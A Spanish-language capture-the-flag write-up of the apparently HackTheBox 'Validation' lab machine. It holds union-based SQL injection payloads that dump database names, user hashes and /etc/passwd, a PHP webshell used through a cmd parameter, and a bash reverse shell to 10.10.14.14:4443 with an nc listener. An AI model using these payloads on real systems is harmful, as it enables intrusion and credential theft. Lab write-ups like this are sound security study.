# Validation

## Información General

<h3>Dificultad:  </h3>

<h3> Sistema operativo: Linux</h3> 

<h3> Fecha de resolución: 01/010/2025 </h3>

<h3>Enlace de la mv: <a href="https://app.hackthebox.com/machines/Validation" target="_blank">Validation</a></h3>

### *Leer el documentro en Ingles:* <a href="validation_ingles.md"> Validation</a>

## Reconocimiento

TryHackme nos proporciona la ip de la máquina objetivo **10.10.11.116**

Voy a establecer en el fichero **/etc/hosts** la **ip de la mv objetivo**, la voy a llamar **validation**

### Escaneo de puerto abierto

#### Escaneo de puerto TCP

El comando que uso con nmap es:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn validation
```

<p align="center"> 

</p>

<div align="center">

| Open port | Service       | Version                     |
| --------- | ------------- | --------------------------- |
| 22      | ssh| OpenSSH 8.2p1 ubuntu 4ubuntu0.3|
| 80        | http          | Apache http 2.4.48    |
| 4566       | http          | nginx   |
| 8080       | http          | nginx   |

</div>

EL puerto 4566 y 8080 no funciona. Tampoco tenemos un usuario para oder acceder por ssh. Por tanto solo tenemos el camino del puerto 80, Por tanto, la visitamos

<p align="center"> 

</p>
 
Me quiero registrar a ver que consigo a cambio, pero obtengo lo siguiente:

<p align="center"> 

</p>

Me registro el nombre junto el Pais que seleccionado, todo en al ruta **account.php**

Luego, retomaremos esto, pero antes quuiero hacer fuzzing web.

### Fuzzing web

```
gobuster dir -u http://validation/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh
```

<p align="center"> 

</p>

El fichero que mas me llama la atención es **config.php** pero eso ya lo investigaremos una vez dentro del sistema.

### SQLI

Vamos a empezar a llevar a cabo las inyecciones sql. Tenemos que tener instalado la extension **FoxyProxy** en nuestro navegador. Además, de que vamos a combinarlo con **burpsuite**.

<p align="center"> 

</p>

En el navegador donde estuvimos antes, vamos a capturar la navegación de la página usando **burpsuite**, para ello en tenemos que irnos a **proxy - Intercept - Intercept on** + FoxyProxy

Despues, tenemos que pasar los datos capturado a **repeater** para llevar sqli. Probaremos en poner las inyecciones en el parametro **country**

```
username=dani&country=Spain" OR "" = "
```

Le damos a **send**

<p align="center"> 

</p>

Lo siguiente será darle a **Follow redirection**

<p align="center"> 

</p>

El caso peculiar en esto, es que tenemos que **desactivar tanto la intercepción del proxy como el foxy proxy** y nos situamos en la ruta http://validation/account.php y la actualizaremos cada vez que le demos a **follow direction**

El resultado sería el siguiente:

<p align="center"> 

</p>

No funcionó.. Para volver a probar otro payload es tan sencillo como darle aquí:

<p align="center"> 

</p>

Me gustaría saber si hay alguna bbdd en esta máquina, por tanto, llevaría a cabo el siguiente payload:

```
username=dani&country=Spain'union select database()-- -
```

<p align="center"> 

</p>

La bbdd es **registration**. Ahora me gustaría enumerar sus tablas

```
username=dani&country=Spain' union select table_name from information_schema.tables where table_schema="registration"-- -
```

<p align="center"> 

</p>

Vale, ahora se qye tengo una bbdd llamada **registration* y una tabla, también llanada **registration**, ahora quiero enumerar la tabla 

```
username=dani&country=Spain' union select column_name from information_schema.columns where table_schema='registration' and table_name='registration' -- -
```

<p align="center"> 

</p>

Pero luego, me doy cuenta que todo el contenido me lo dá del contenido que tengo registrado, es decir, en username me aparecerá como **dani** que es el usuario con el que me he registrado, luego userhash, me dará como resultado el hash de dani, country, me daría los payload del sqli, regtime unos números que no tiene nada que ver con lo que estoy ahora.

Una forma que tengo para visualizarlo sería usando el siguiente payload:

```
username=dani&country=Spain' union select group_concat(username,0x3a,userhash) from registration.registration -- -
```

<p align="center"> 

</p>

Por tanto, lo siguiente que haré es averiguar es la version del sistema

```
username=dani&country=Spain' union select version()-- -
```

<p align="center"> 

</p>

La version del sistema es **10.5.11-MariaDB-1**

Otra cosa que quiero probar es que usuario tenemos.

```
username=dani&country=Spain' union select user()-- -
```

<p align="center"> 

</p>

El usuario del sistema es **uhc@localhost**

Otra cosa que quiero probar es leer el archivo **/etc/passwd**

```
username=dani&country=Spain' union select load_file("/etc/passwd")-- -
```

<p align="center"> 

</p>

Una forma para verlo mejor sería usando el atajo de teclado **control+u**

<p align="center"> 

</p>

Otra idea que se me ocurrio es crear dentro del sistema un archivo llamado prueba.php desde burpsuite, para llevar acabo esto, tengo que capturar de nuevo los datos del navegador desde la esta ruta http://validation/

<p align="center"> 

</p>

Para probar que se ha creado correctamente escribo en el navegador:

```
http://validation/prueba.php
```

<p align="center"> 

</p>

Intento llevar un comando simple como

```
http://validation/prueba.php?cmd=whoami
```

<p align="center"> 

</p>

Luego en el navegador intento hacer una **revershell**

```
http://validation/prueba.php?cmd=bash -c "sh -i >& /dev/tcp/10.10.14.14/4443 0>&1"
```
Poniendo esto no me funciona porque & me da problemas por tanto, lo tengo que convertir en hexadecimal

& --> %26

Por tanto lo correcto sería

```
http://validation/prueba.php?cmd=bash -c "sh -i >%26 /dev/tcp/10.10.14.14/4443 0>%261"
```

Antes tengo que tener activado el puerto de escucha en mi terminal

```
nc -lvnp 4443
```

<p align="center"> 

</p>

## Explotación Posterior

#### TTY

```
script /dev/null -c bash
```
**control z**

```
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

Leemos el archivo **config.pgp** que encontramos antes, que me daba mucha curiosidad su contenido

<p align="center"> 

</p>

Premio, llevamos el comando:

```
su
```

e introducimos la contraseña

<p align="center"> 

</p>

Somos root, una escalada bastante fácil. Obtenemos las flag del usuario 

```
cat /home/htb/user.txt
```

<p align="center"> 

</p>

Ahora conseguimos la flag de root

```
cat /root/topot.txt
```

<p align="center"> 

</p>

**Máquina terminada**

## Conclusión

Esta máquina me resultó muy útil para reforzar y afianzar mis conocimientos sobre SQL Injection (SQLi), además de servirme para probar diferentes payloads y técnicas de explotación.
Uno de los aprendizajes más relevantes fue la construcción de consultas que permitieran escribir archivos en el servidor, algo que normalmente se realiza con el payload UNION SELECT ... INTO OUTFILE. En entornos controlados como este, es una manera excelente de comprender cómo un atacante podría cargar un archivo malicioso (por ejemplo, un webshell) y por qué es importante restringir permisos de escritura en servidores de producción.

Un aspecto curioso fue que el antivirus detectó la webshell generada como Backdoor:PHP/Chopper.B!dha, clasificándola como una amenaza de acceso remoto. Esto me hizo reflexionar sobre cómo las herramientas de seguridad identifican y reaccionan ante archivos potencialmente peligrosos, incluso cuando se usan en entornos de laboratorio.

<p align="center"> 

</p>

La escalada de privilegios resultó sencilla: la contraseña de usuario estaba almacenada en el archivo config.php, un patrón habitual en máquinas de nivel básico, que refuerza la importancia de gestionar de forma segura la información sensible.

En conclusión, esta máquina es ideal para principiantes que deseen practicar SQLi y comprender el impacto de una mala gestión de credenciales. A pesar de su nivel de dificultad bajo, ofrece una buena experiencia de aprendizaje.